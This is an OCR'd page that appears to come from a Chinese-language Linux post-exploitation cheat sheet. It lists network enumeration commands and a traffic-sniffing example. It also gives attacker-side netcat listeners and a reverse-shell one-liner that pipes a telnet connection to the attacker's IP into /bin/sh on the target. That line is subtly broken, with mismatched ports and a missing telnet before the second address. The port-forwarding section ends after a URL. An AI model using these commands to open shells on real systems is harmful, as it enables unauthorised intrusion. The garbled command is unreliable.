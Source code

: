 **通信与网络**

**NIC(s)，系统有哪些？它是连接到哪一个网络？**

    /sbin/ifconfig -a
    cat /etc/network/interfaces
    cat /etc/sysconfig/network

**网络配置设置是什么？网络中有什么样的服务器？DHCP 服务器？DNS 服务器？网关？**

    cat /etc/resolv.conf
    cat /etc/sysconfig/network
    cat /etc/networks
    iptables -L
    hostname
    dnsdomainname

**其他用户主机与系统的通信？**

    lsof -i
    lsof -i :80
    grep 80 /etc/services
    netstat -antup
    netstat -antpx
    netstat -tulpn
    chkconfig --list
    chkconfig --list | grep 3:on
    last
    w

**缓存？IP 和/或 MAC 地址?**

    arp -e
    route
    /sbin/route -nee

**数据包可能嗅探吗？可以看出什么？监听流量**

    # tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
    tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21

**你如何 get 一个 shell？你如何与系统进行交互？**

    # http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
    nc -lvp 4444    # Attacker. 输入 (命令)
    nc -lvp 4445    # Attacker. 输出(结果)
    telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # 在目标系统上. 使用 攻击者的IP!

**如何端口转发？（端口重定向）**

**# rinetd**

    # http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch
